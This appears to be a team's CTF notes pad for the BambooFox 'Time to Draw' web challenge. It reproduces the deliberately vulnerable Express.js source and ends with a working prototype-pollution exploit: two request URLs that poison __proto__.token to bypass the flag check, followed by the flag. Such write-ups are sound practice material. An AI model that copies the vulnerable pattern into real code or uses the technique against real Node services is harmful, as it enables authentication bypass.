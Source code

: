 ## Time to Draw
> **Category:** Web
> **Description:** 
> **Pad Link:** http://34.87.94.220/pad/web-time-to-draw
> **Flag:**
---

http://chall.ctf.bamboofox.tw:8787/

## Source code
```javascript=
const express = require("express");
const cookieParser = require('cookie-parser')
var crypto = require('crypto');
const secret = require("./secret");

const app = express();
app.use(cookieParser(secret.FLAG));

let canvas = {
    ...Array(128).fill(null).map(() => new Array(128).fill("#FFFFFF"))
};

const hash = (token) => crypto.createHash('sha256').update(token).digest('hex');

app.get('/', (req, res) => {
    if (!req.signedCookies.user)
        res.cookie('user', { admin: false }, { signed: true });

    res.sendFile(__dirname + "/index.html");
});

app.get('/source', (_, res) => {
    res.sendFile(__filename);
});

app.get('/api/canvas', (_, res) => {
    res.json(canvas);
});

app.get('/api/draw', (req, res) => {
    let { x, y, color } = req.query;
    if (x && y && color) canvas[x][y] = color.toString();
    res.json(canvas);
});

app.get('/promote', (req, res) => {
    if (req.query.yo_i_want_to_be === 'admin')
        res.cookie('user', { admin: true }, { signed: true });
    res.send('Great, you are admin now. <a href="/">[Keep Drawing]</a>');
});

app.get('/flag', (req, res) => {
    let userData = { isGuest: true };
    if (req.signedCookies.user && req.signedCookies.user.admin === true) {
        userData.isGuest = false;
        userData.isAdmin = req.cookies.admin;
        userData.token = secret.ADMIN_TOKEN;
    }

    if (req.query.token && req.query.token.match(/[0-9a-f]{16}/) &&
        hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token)
        res.send(secret.FLAG);
    else
        res.send("NO");
});

app.listen(3000, "0.0.0.0");
```

```javascript=
req.query.token && req.query.token.match(/[0-9a-f]{16}/) && hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token
```
Need to bypass this line mainly ><

## References


## Bugs


## Exploit Ideas
standard prototype pollution chall
~~~
http://chall.ctf.bamboofox.tw:8787/api/draw?x=__proto__&y=token&color=put_the_sha256_hex_in_lowercase_here(%3Cyour%20ip%3E0123456789abcdef)
http://chall.ctf.bamboofox.tw:8787/flag?token=0123456789abcdef

flag{baby.__proto__.pollution.js}
~~~

## Scripts

